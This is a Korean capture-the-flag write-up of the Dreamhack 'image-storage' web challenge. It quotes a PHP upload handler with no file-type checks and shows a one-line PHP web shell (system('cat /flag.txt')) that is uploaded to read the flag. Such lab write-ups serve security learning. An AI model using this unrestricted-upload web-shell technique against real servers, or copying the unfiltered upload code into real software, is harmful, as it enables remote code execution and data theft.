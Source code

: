 <!DOCTYPE html>
<html>
<head>
        <link rel="stylesheet" type="text/css" href="sytle.css">
</head>
<body>
        <h1>Dreamhack Web Hacking image-storage Write-Up</h1>
</body>
<br>
<br>
</html>

![image](https://github.com/user-attachments/assets/89916c37-ace3-41ca-b3ce-984ac65c1593)

문제 설명을 보면 php로 작성된 파일이고 ```/flag.txt```에 플래그가 있다고 한다.

문제 서버로 들어가보자

![image](https://github.com/user-attachments/assets/58c1d8d6-79c4-4219-a15f-ac48bf0ef95f)

이미지를 업로드하라고 나온다.

Upload 파일로 들어가면 파일을 업로드할 수 있는 페이지가 나온다.

![image](https://github.com/user-attachments/assets/ce2c012f-f36c-421e-b9cc-3e5daf3eb259)

문제 파일을 다운로드 받아보자.

![image](https://github.com/user-attachments/assets/805a4647-9e2f-4bfc-a26b-e4d644443473)

3개의 php 파일이 들어 있다. 이중에서 upload 파일이 중요한것 같은 먼저 살펴보자.

```python

<?php
  if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES)) {
      $directory = './uploads/';
      $file = $_FILES["file"];
      $error = $file["error"];
      $name = $file["name"];
      $tmp_name = $file["tmp_name"];
     
      if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
      }else {
        if (file_exists($directory . $name)) {
          echo $name . " already exists. ";
        }else {
          if(move_uploaded_file($tmp_name, $directory . $name)){
            echo "Stored in: " . $directory . $name;
          }
        }
      }
    }else {
        echo "Error !";
    }
    die();
  }
```

php 명령어 부분만 뜯어 보면 ```./uploads/```경로에 사용자가 올리는 파일이 업로드 되는 것 같다. 

아무런 필터링도 없는 것을 보니 php 코드를 작성해서 업로드할 수 있을 것 같다.

플래그가 ```/flag.txt```에 있는 것을 알고 있으니 ```/flag.txt``` 파일을 출력하도록 코드를 작성했다.

```python
<?php
    system("cat /flag.txt");
?>
```

위 코드로 만든 shell.php 파일을 업로드 했다.

![image](https://github.com/user-attachments/assets/af7a001d-1029-4ed8-81c5-104fc98574ad)

업로드 되었다고 한다. 이어서 업로드한 파일로 들어가 보자.

![image](https://github.com/user-attachments/assets/034ac9b6-f5bf-4899-b46e-1557099bdcdd)

![image](https://github.com/user-attachments/assets/931a5bfe-958b-4a4e-97bb-6abc32e48872)

플래그가 출력되어 있다!!
